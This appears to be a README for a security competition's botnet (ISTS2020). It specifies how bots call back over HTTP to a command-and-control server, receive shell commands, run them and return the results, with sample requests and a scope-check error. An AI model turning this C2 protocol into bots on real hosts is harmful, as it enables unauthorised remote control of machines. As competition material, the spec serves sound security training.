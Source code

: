 # ISTS2020-Botnet


The botnet IP is at `http://172.16.0.56:80`

The botnet spec for ISTS2020.

Teams deploy their botnet across the infrastructure to capture hosts and gain points.


A sample python bot can be found in [bot.py](./bot.py).

## Botnet Spec

The botnet spec is rather simple, bots call back to the C2 every round using HTTP.

The first step is the checkin for commands

> Note: You can do this with either a GET or PUT request

```
GET /callback HTTP/1.1
Host: 192.168.177.195
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 58
Content-Type: application/json

{
  "team": "5",
  "ip": "192.168.177.195",
  "user": "www-data"
}
```

The server will reply with a command to execute and a command ID
```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 191

{
  "command": "echo ggahgyvextpblhtdvamkgnpgexihtt", 
  "id": "9607189a-0163-48a0-80de-99b4fa9a8155", 
  "ip": "192.168.177.195", 
  "team": "5", 
  "type": "linux", 
  "user": "www-data"
}
```


Once a command is received, the bot must execute the command and return the results to the server. This is done through a simple POST request.

```
POST /callback HTTP/1.1
Host: 192.168.177.195:5000
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 93
Content-Type: application/json

{
  "id": "9607189a-0163-48a0-80de-99b4fa9a8155",
  "results": "ggahgyvextpblhtdvamkgnpgexihtt\n"
}
```

The server will then send back a message indicating whether or not the check in was successful.

```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 143

{
  "id": "9607189a-0163-48a0-80de-99b4fa9a8155", 
  "ip": "192.168.177.195", 
  "msg": "successful check in", 
  "time": 1581107673.8783097
}
```


## Errors

If there is an error during the process, the server will add the "error" field in the JSON with a description of the error.


In the following example, the bot tries to call back from a host that is not in the scope of the team's attack space.

```
GET /callback HTTP/1.1
Host: 192.168.177.195:5000
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 50
Content-Type: application/json

{"team": "5", "ip": "8.8.8.8", "user": "www-data"}

HTTP/1.0 400 BAD REQUEST
Content-Type: application/json
Content-Length: 45

{
  "error": "unknown IP address: 8.8.8.8"
}
```